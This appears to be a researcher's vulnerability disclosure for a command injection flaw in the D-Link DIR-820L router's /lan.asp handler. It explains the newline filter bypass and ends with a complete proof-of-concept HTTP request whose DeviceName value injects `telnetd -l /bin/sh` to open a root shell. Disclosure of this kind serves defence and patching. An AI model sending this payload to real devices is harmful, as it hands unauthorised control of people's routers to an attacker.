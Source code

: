 # D-Link DIR-820L command_execution

**Vender**: D-Link

**Vendor Homepage**: http://www.dlink.com.cn/

**Affect products**: DIR-820L

**Firmware version**: 1.05 B03

**Hardware Link**: http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

**Exploit Author**: [SkYe231@Hillstone](mailto:ext-lhliang@Hillstonenet.com), Akast@Hillstone, GD@Hillstone, Amao@Hillstone

## detail

In the handler of route `/lan.asp`, the value of parameter `Device Name` can inject command

![image-20220222165316794](img/image-20220222165316794.png)

Parameters are filtered on both the front-end and the back-end. 

**Grab traffic packets to bypass front-end filtering.** 

**The backend filter function is: `hasInjectionString` (in file `lib/libleopard.so`).The symbol `\n` is not filtered.**

## EXP

Edit the value of `lanHostCfg_DeviceName_1.1.1.0` to the command what you want to inject. Such as:

> lanHostCfg_DeviceName_1.1.1.0=%0atelnetd -l /bin/sh%0a

```html
POST /get_set.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 768
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/lan.asp
Cookie: hasLogin=1

ccp_act=set&old_ip=192.168.0.1&old_mask=255.255.255.0&new_ip=192.168.0.1&new_mask=255.255.255.0&nextPage=lan.asp&lanHostCfg_IPAddress_1.1.1.0=192.168.0.1&lanHostCfg_SubnetMask_1.1.1.0=255.255.255.0&lanHostCfg_DomainName_1.1.1.0=&lanHostCfg_DNSRelay_1.1.1.0=1&lanHostCfg_DHCPServerEnable_1.1.1.0=1&lanHostCfg_MinAddress_1.1.1.0=192.168.0.100&lanHostCfg_MaxAddress_1.1.1.0=192.168.0.200&lanHostCfg_DHCPLeaseTime_1.1.1.0=1440&lanHostCfg_DeviceName_1.1.1.0=%0atelnetd -l /bin/sh%0a&lanHostCfg_AlwaysBroadcast_1.1.1.0=0&lanHostCfg_NetBIOSAnnouncement_1.1.1.0=0&lanHostCfg_NetBIOSLearn_1.1.1.0=0&lanHostCfg_NetBIOSScope_1.1.1.0=&lanHostCfg_NetBIOSNodeType_1.1.1.0=2&lanHostCfg_PrimaryWINSAddress_1.1.1.0=0.0.0.0&lanHostCfg_SecondaryWINSAddress_1.1.1.0=0.0.0.0&1645537536373=1645537536373
```

